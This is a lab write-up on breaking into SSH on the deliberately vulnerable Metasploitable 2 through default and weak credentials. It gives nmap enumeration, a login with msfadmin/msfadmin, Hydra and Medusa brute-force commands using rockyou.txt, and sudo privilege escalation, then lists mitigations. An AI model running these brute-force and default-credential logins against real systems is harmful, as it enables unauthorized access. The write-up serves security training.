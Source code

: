 # SSH - Weak Credential Exploit

### Service Overview

SSH (Secure Shell) is a cryptographic protocol used to securely access remote systems. On Metasploitable 2, SSH runs on port 22, allowing secure terminal sessions. However, due to default or weak credentials, it's often possible to gain unauthorized access.

---

## Vulnerabbility Overview

- Name: SSH Weak Credential Login
- CVE: None (misconfiguration issue, not a code vulnerability)
- Impact: Unauthorized remote shell access
- Access Required: None (brute-force or known credentials)
- Attack Type: Credential-based Bruteforce

```
The SSH service itself is not vulnerable. The issue lies in the fact that Metasploitable 2 contains several default user accounts (e.g., msfadmin, user, postgres, root) with known or weak passwords (usually the same as the username).
```
---
## Service Detection and Enumeration

```bash
nmap -sV -v -p 22 <target_ip>
```

![SSH_Nmap_Service_Scan](./SSH_Nmap_Service_Scan.png)

### Exploitation (Manual: Default/Weak Passwords)

```bash
ssh msfadmin@<target_ip>

#password: msfadmin
```

Most OpenSSH clients have disabled support for older key exchange algorithms like ssh-rsa and ssh-dss which Metasploitable 2 still uses. Use this command to force use ssh-rsa key-type:

```
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@10.0.2.7
```


### Exploitation (Automated: Hydra)

```bash
hydra -l msfadmin -p /usr/share/wordlists/rockyou.txt ssh://<target_ip>
```

 Hydra may not work due to outdated SSH algorithms on the Metasploitable 2 target. The server only supports ssh-rsa and ssh-dss, which newer clients may refuse. Use Medusa or adjust client configurations accordingly.


```bash
medusa -h 10.0.2.7 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ssh
```

You can replace `rockyou.txt` with a custom password list for a more targeted attack

![Medusa_SSH_BruteForce](./SSH_Bruteforce_Medusa.png)

![Logging_In](./Default_Credential_SSH_login.png)

## Privilge Escalation

As seen, a local user shell has been obtained, however, Privelege Escalation is possible here.



![sudo -l](./SSH_Priv_Esc.png)

Again, default password can be used to escalate privileges.


### Results

- Successfully gained shell using weak/default credentials
- Demonstrates the danger of weak/default credentials
- Performed local privelege escaltion to gain root shell.

### Mitigation

- Disable default accounts and remove any unnecessary user accounts from the system.
- Enforce strong, unique passwords for all user accounts to avoid weak credentials.
- Use key-based authentication for SSH and disable password-based logins.
- Keep SSH configurations up to date, ensuring the server only supports secure key exchange algorithms
- Limit the use of sudo by configuring `/etc/sudoers` to only allow necessary users access and restrict commands they can execute.
- Use least privilege principle: Assign users only the minimum required privileges to perform their tasks.



